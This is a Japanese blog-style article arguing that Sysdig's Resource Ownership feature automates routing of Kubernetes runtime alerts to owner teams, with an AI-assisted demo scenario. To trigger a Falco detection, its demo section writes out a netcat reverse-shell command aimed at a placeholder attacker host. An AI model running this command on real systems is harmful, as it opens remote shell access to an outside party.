





# はじめに ― Runtime Security の本当のボトルネック

クラウドネイティブ環境で Runtime Security を運用していると、ある一点で必ず詰まります。

> 「検知は上がっている。でも、これ **誰が直すんだっけ？**」

ツールが SOC に通知し、SOC が Slack で叫び、誰かが kubectl で Namespace を確認し、Owner を Confluence で探し、ようやく担当チームへ転送する。
このフローは、**Detection 性能とは無関係に SecOps をスケールさせない最大の要因**です。

Sysdig には [Resource Ownership](https://docs.sysdig.com/) という機能があり、まさにこの "誰が対応するか" を自動的に解決します。
ところが、お客様に紹介すると **「タグ管理機能ですか？ うちは既に AWS Tag も K8s Label も付いていますよ」** と返ってくることが非常に多い。

実はここに、Resource Ownership を「ただのタグ機能」だと誤解させてしまう本質的な落とし穴があります。

本記事では、Resource Ownership を「タグ管理機能」としてではなく、**Security Workflow Automation の起点となる "Ownership 解決機構"** として位置づけ直し、Headless Cloud Security と組み合わせた次世代の SecOps 像までを論じます。

---

# 第1章 ― よくある "誰が対応？" 問題

## 1.1 検知後のリアルな運用フロー

まず、Resource Ownership がない世界での Runtime Alert 対応フローを描いてみます。



ここで一番痛いのは **C のフェーズ** です。
Detection 自体は秒で出る。でも「誰の責任か」を解決するために、人間が複数のツールを横断し、しばしば数十分〜数時間を消費する。

これは Kubernetes / マルチクラウド環境ほど顕著です。
理由は単純で、ワークロードと組織の対応関係が、

- AWS Account
- K8s Namespace
- Helm Release
- Team / Squad / Service

の **複数の軸でズレている** からです。

## 1.2 "Detection の速さ" だけでは MTTR は短くならない

SecOps の KPI として MTTR (Mean Time To Respond) が語られますが、Detection の速さを 1分 → 10秒 にしても、Owner 解決に 30分 かかっていたら全体は変わりません。

```mermaid
gantt
    title MTTR の内訳 (Resource Ownership なし)
    dateFormat HH:mm
    axisFormat %H:%M

    section Detection
    アラート発火 :a1, 00:00, 1m
    section Triage
    Owner 解決 (人手)   :a2, after a1, 30m
    Jira 作成 / Assign  :a3, after a2, 5m
    section Response
    調査・封じ込め      :a4, after a3, 25m
```



**ボトルネックは Detection ではなく、Triage (特に Owner 解決)** だと一目で分かります。
Runtime Security 製品が "誰が対応するか" を解決しない限り、運用規模はリニアにしか伸びません。

---

# 第2章 ― 「既存タグあるじゃん？」問題

ここで多くのエンジニアが当然のように言います。

> 「`team=payments` ってラベル付いてるじゃん。それで良くない？」

正論です。実際、ほとんどの組織には既に何らかのメタデータが付いています。

```yaml
# 典型的な K8s Workload Label
metadata:
  labels:
    team: payments
    owner: squad-payments
    service: checkout
    env: prod
```

それなのに、なぜ "誰が対応？" 問題は解決していないのでしょうか。

## 2.1 タグは "書いてあるだけ"

ここに本質があります。
タグは存在しますが、**Security 製品はそれを "運用の起点" として扱っていない** ことがほとんどです。



タグは「メタデータとしては存在している」が、「Security 運用ロジックには接続されていない」のが現実です。
**情報があることと、ツールがそれを理解して動作することは別の話**です。

## 2.2 Tag と Resource Ownership の役割の違い

ここを整理するのが本記事の核です。

| 項目 | 普通のタグ / ラベル | Resource Ownership |
|------|---------------------|---------------------|
| 目的 | 人間・ツールの分類 | Sysdig が責任者を解決 |
| 主用途 | 検索・フィルタ・可視化 | 自動通知・自動 Assign |
| 動作 | metadata として存在 | ownership ロジックとして動作 |
| 例 | `team=payments` | "payments team が owner" と解釈 |
| 使われ方 | UI 検索 / Cost 管理 | Alert Routing / Jira / Workflow |
| 主な読み手 | 人間 | Sysdig (および連携ツール) |

一言で言うとこうなります。

> **タグは "情報"。Resource Ownership は "運用アクション" の起点。**

別の言い方をすれば、

> **タグは "書いてある"。Ownership は "Sysdig が運用に使う"。**

タグ自体は元から存在しているケースが多い。Resource Ownership の価値は、その情報を **意味付きのコンテキスト** に昇格させ、Security Workflow へ接続することにあります。

---

# 第3章 ― Resource Ownership は何を解決するか

## 3.1 Ownership 解決という新しい層

Resource Ownership を導入すると、Detection と Response の間に **Ownership Resolution 層** が挿入されます。



ポイントは、Sysdig が **タグの "意味" を理解する** ことです。

- `team=payments` というラベルを見たら → "payments team が owner" と解釈
- Jira Project は `PAY`
- Slack 通知先は `#sec-payments`
- SLA 対象は payments のポリシー

これが「タグはメタデータ、Ownership は operational context」という構図です。

## 3.2 MTTR 内訳の変化

第1章のガントを Ownership あり版に書き換えると、こうなります。

```mermaid
gantt
    title MTTR の内訳 (Resource Ownership あり)
    dateFormat HH:mm
    axisFormat %H:%M

    section Detection
    アラート発火 :a1, 00:00, 1m
    section Triage
    Owner 解決 (自動)  :a2, after a1, 1m
    Ticket / 通知 自動  :a3, after a2, 1m
    section Response
    調査・封じ込め     :a4, after a3, 25m
```



Triage が **30分 → 2分** に短縮されます。
Detection の高速化ではなく、**Detection と Response の "間" を埋めた** ことによる短縮であり、ここが Resource Ownership の経済的価値です。

---

# 第4章 ― Headless Cloud Security との掛け算

Resource Ownership 単体でも価値はありますが、**AI を起点とした Headless Cloud Security** と組み合わせると、見える景色がさらに変わります。

## 4.1 「誰が対応？」を AI に問う

例えば Claude Code / Headless Sysdig 連携環境では、次のような自然言語の問い合わせが成立します。

```text
> What happened on the checkout-api workload at 14:32?
> Who owns this workload?
> Create a remediation ticket and assign it to the owner team.
```

これに対し、Sysdig 側は Ownership を理解しているので、こう返せます。

```text
The affected workload "checkout-api" belongs to the payments team.
Owner label: squad-payments
Namespace: payments-prod
A Jira ticket PAY-1423 has been created and assigned to squad-payments.
Slack notification sent to #sec-payments.
```

## 4.2 Detection → Investigation → Routing → Response の一気通貫

これを図にすると次のような世界観になります。



ここで重要なのは "AI がすごい" ではなく、**"Security Team が毎回 owner を探さなくていい"** ことです。
AI は Ownership という構造化されたコンテキストがあって初めて、自律的に Routing と Response を行えるようになります。

> Resource Ownership は、**AI 時代の SecOps が前提とする "機械可読な責任構造"** です。

---

# 第5章 ― 実機デモシナリオ (GKE × Headless × Ownership)

ここまでの理論を実機で体感するためのシナリオを示します。
筆者の検証環境 (GKE + Sysdig SaaS) を想定しています。

## 5.1 前提環境

```yaml
# checkout-api.yaml (抜粋)
apiVersion: apps/v1
kind: Deployment
metadata:
  name: checkout-api
  namespace: payments-prod
  labels:
    team: payments
    owner: squad-payments
    service: checkout
    env: prod
spec:
  template:
    metadata:
      labels:
        team: payments
        owner: squad-payments
        service: checkout
```

Sysdig 側では、これらのラベルを Ownership Mapping として登録します (UI / API)。

## 5.2 Runtime Alert の発火

検証用に、典型的な Runtime 異常を発生させます。

```bash
# Pod 内で実行 (検証目的のみ)
kubectl exec -it checkout-api-xxxx -n payments-prod -- /bin/sh
# 検証用コマンド (実環境では絶対に実行しないでください)
nc -e /bin/sh attacker.example 4444
```

これにより `Reverse Shell` 系の Falco Rule が発火します。

## 5.3 Headless から問い合わせる

```text
> Show me the latest critical runtime event.
> Who owns the affected workload?
> Open a Jira ticket and notify the owner team in Slack.
```

Ownership が正しくマッピングされていれば、AI は:

1. `checkout-api` を特定
2. ラベルから `owner=squad-payments` を解決
3. Jira Project `PAY` にチケット起票
4. `#sec-payments` へ Slack 通知

を **人間の介在なし** で実行します。

## 5.4 デモで強調すべきメッセージ

デモの "見せ場" は派手な Detection ではなく、次の一言です。

> 「アラートが出てから、誰も Owner を探していません。」

Detection の速さで競う時代から、**Ownership Resolution と Workflow Automation の自動化レベル** で競う時代へ ― これが Resource Ownership を見せるときの本当の主張です。

---

# 第6章 ― 導入時に押さえるべき設計ポイント

実運用に向けて、いくつか落とし穴を共有します。

## 6.1 Owner の定義は "粒度" を先に決める

| 粒度 | 例 | 向くケース |
|------|-----|-----------|
| Team レベル | `team=payments` | 中規模組織。SLA や予算が Team 単位 |
| Squad レベル | `owner=squad-payments` | 大規模組織。マイクロサービスごとに担当が違う |
| 個人レベル | `owner=keita@example.com` | 個人責任を運用上明確にしたい場合 (推奨度低) |

個人粒度は離職・異動で破綻しやすく、**チーム / Squad 粒度 + ID 解決サービス** との組み合わせが現実的です。

## 6.2 既存ラベル戦略との整合

社内に既にラベル規約がある場合、Sysdig の Ownership Mapping を **新規ラベル体系で上書きしない** こと。
原則として、

- 既存 `team=` / `owner=` を **そのまま意味付け** する
- 不足分のみ補完用ラベルを追加する

という方針が、運用負荷の点で最も無理がありません。

## 6.3 Workflow Automation との接続

Resource Ownership は、それ単体で UI に Owner を表示するだけでも価値はありますが、本領は次の連携です。



最低でも Jira / Slack のどちらかと接続して初めて、Ownership は "見える価値" を生みます。

---

# まとめ ― Runtime Security は "検知" だけでは運用できない

本記事の主張をもう一度整理します。

- 多くの組織で MTTR を伸ばしているのは Detection の遅さではなく、**Owner 解決の遅さ**である。
- 既存タグは "情報" として存在するが、Security 製品の運用ロジックには **接続されていない** ことが多い。
- Sysdig Resource Ownership は、タグを **operational context** に昇格させ、Routing / Ticketing / Notification を自動化する。
- Headless Cloud Security と組み合わせると、Detection → Investigation → Routing → Response が **一気通貫の自動化** になる。
- つまり Resource Ownership は単なるタグ管理機能ではなく、**AI 時代の SecOps が必要とする "機械可読な責任構造"** である。

> Runtime Security は "検知" だけでは運用できない。
> "誰が直すか" を解決して初めてスケールする。

タグはもうある。次に必要なのは、それを **Sysdig に "理解させる"** ことです。

---

## 参考

- Sysdig Documentation: Resource Ownership
- Sysdig Workflow Automation
- Falco Runtime Rules
- 関連記事:
  - [Runtime-native Security の思想と実装](../../runtime-native-observability.md)
  - [Sysdig AI 戦略を読み解く (Qiita版)](../../sysdig-ai-strategy-qiita.md)
